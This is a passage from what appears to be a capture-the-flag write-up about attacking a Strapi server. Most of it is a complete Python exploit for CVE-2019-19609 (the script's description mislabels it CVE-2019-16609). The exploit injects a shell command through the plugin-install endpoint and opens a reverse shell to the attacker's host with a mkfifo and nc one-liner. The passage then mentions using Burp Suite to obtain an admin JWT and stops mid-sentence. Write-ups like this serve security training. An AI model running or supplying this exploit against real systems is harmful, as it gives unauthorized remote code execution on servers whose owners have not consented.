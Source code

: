 Remember that before with ***seacrhsploit*** that reported us strapi exploits for RCE, in my case for some reason i don't know why it din't work thos two exploits so i decided to look for one and i found the following exploit. And something to mention this strapi vulnerability is registered as ***CVE-2019-19609-EXPLOIT***.

```python
#!/bin/python
import requests
import argparse

parser = argparse.ArgumentParser(description='Exploit for CVE-2019-16609 in Strapi')
parser.add_argument('-d', '--domain', type=str, help='Target IP or domain', required=True)
parser.add_argument('-jwt', '--jwtoken', type=str, help='Json web token authenticate', required=True)
parser.add_argument('-l', '--lhost', type=str, help='Your host', required=True)
parser.add_argument('-p', '--port', type=int, help='Port your machine is listening on', required=True)
args = parser.parse_args()

url = args.domain
port = args.port
jwt = args.jwtoken
host = args.lhost
urlVuln = "http://"+url + "/admin/plugins/install"

print("[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)")
print("[+] Remember to start listening to the port "+str(port)+" to get a reverse shell") 

headers = {'Host': url, 'Authorization': 'Bearer '+jwt, 'Content-Type': 'application/json', 'Content-Length': '131', 'Connection': 'close'}

#feel free to modify the payload
data = '{"plugin":"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc '+host+' '+str(port)+' >/tmp/f)", "port":"80"}' #Depending on the scenario, you will have to change the port here

print("[+] Sending payload... Check if you got shell")

r = requests.post(urlVuln, headers=headers, data=data, verify=False)

print("[+] Payload sent. Response:")
print(r)
print(r.text)
```

So if we want to run the exploit it tells us that we need a jwt from a valid user, in this case i use burpsuite and i will use the jwt of the admin user. 

<p align = "center">